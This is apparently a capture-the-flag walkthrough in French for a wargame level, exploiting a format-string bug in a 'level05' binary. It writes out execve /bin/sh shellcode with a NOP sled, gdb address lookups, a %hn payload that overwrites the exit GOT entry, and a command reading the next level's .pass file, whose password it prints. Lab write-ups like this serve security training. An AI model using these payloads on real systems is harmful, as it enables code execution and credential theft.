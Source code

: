 # Level04

```shell
$ ./level05
Hello World
hello world
```

Il utile notre `input` comme premier parametre de son printf. On peut alors une faille `FormatString` pour changer l'appel de la fonction `exit` pour notre variable d'environnement `Shellcode`

```shell
$ export Shellcode=$(python -c 'print "\x90"*100 +"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"')

$ gdb level05 -q
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.

(gdb) b *main
Breakpoint 1 at 0x8048444

(gdb) run
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048444 in main ()

(gdb) x/s *((char **)environ)
0xffffd860: "Shellcode=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Phn/shh//bi\211\343P\211\341P\211\342\260\v̀"
```

Nous avons l'adresse de notre variable `Shellcode => 0xffffd860`

On cherche l'adresse de la fonction `exit`

```shell
$ gdb level05 -q
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.

(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

Nous avons l'adresse de la fonction exit `exit => 0x80497e0`

On a plus qu'a enregistrer `0xd860` puis `0xffff`

- `0xd860 + 0x30 = 55440 - 8 = 55432`
- `0xffff = 65535 - 55440 = 10095`

On cherche a connaitre le nombre `NB` pour tomber sur notre input dans `"aaaa%NB$x"`

```shell
$ python -c 'print("aaaa%10$x")' | ./level05
aaaa61616161
```

On a plus qu'a tout rassembler

```shell
$ (python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55432d%10$hn" + "%10095d%11$hn")'; cat) | ./level05
...
               -134415680
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
